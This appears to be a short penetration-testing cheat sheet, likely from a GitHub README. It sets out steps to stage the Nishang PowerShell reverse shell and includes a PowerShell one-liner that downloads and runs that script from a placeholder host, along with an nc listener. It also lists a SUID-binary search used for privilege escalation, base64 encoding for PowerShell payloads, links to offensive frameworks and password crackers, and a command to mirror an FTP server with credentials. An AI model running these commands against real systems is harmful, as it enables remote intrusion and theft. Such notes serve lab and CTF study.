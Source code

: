 #### Tools & Techniques


# Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


# Linux
# to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;


# Windows
# to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

# Tools
# Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

# Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

# Other tools
readpst,mdb-shell,mdb-sql

# Techniques
To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x
